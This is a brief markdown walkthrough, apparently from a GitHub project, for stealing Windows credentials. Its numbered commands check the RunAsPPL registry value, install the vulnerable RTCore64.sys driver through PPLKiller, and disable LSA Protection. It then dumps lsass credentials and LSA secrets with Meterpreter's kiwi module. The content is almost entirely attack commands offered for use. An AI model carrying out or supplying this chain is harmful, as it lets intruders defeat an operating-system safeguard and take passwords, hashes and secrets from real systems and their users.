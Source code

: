 1. Check if PPL is enabled

CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - 0x1 means enabled.

2. Make sure the session you are running with has SYSTEM privleges.

3. Place the driver RTCore64.sys at:
- `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - mkdir Temp.

4. Now, we will need to install the driver:
- `.\PPLKiller /installDriver`

5. Then we will disable LSA Protection:
- `.\PPLKiller.exe /disableLSAProtection`

Now we can use meterpreter mimikatz module to dump the lsass process:
- `load kiwi` - `creds_all` - `lsa_dump_secrets`
